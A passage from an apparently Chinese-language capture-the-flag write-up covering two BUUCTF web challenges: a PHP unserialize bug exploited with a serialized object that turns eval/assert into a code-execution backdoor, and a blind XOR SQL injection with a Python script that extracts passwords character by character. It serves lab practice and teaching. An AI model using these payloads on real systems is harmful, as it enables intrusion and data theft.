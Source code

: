 ```php
@$ppp = unserialize($_GET["data"]);
```

简单反序列化

试了一下 system 没有回显, 应该是被过滤了

单独的 eval 或 assert 都报错, 只能换成 eval + assert

```php
<?php

class HelloPhp{
    public $a = 'eval($_REQUEST[1]);';
    public $b = 'assert';
}

echo serialize(new HelloPhp())

?>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208291602052.png)

过滤了一堆, 不过 scandir 可以用, 列目录看到一个 `/FIag_!S_it` 文件, 用 file_get_contents 读取后显示是假 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208291603229.png)

找了好久文件都找不到, 也不能执行命令

后来想想会不会在环境变量里, 去看了下 phpinfo

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208291606069.png)

## [极客大挑战 2019]FinalSQL

username 和 password 处无法注入

id 处可以异或注入

```
http://6fe3dd29-67cc-4ca2-b559-93cee761e803.node4.buuoj.cn:81/search.php?id=6^(length(database())>0)
```

python 脚本

```python
import time
import requests

url = 'http://6fe3dd29-67cc-4ca2-b559-93cee761e803.node4.buuoj.cn:81/search.php?id=6'

dicts = 'flag{bcde-0123456789}'

flag = ''

for i in range(100):
    time.sleep(0.5)
    for s in dicts:
        payload = f'^(substr((select(group_concat(password))from(F1naI1y)where(password)regexp(\'flag\')),{i},1)=\'{s}\')'
        res = requests.get(url + payload, timeout=30)
        if 'ERROR' in res.text:
            flag += s
            print(flag)
```
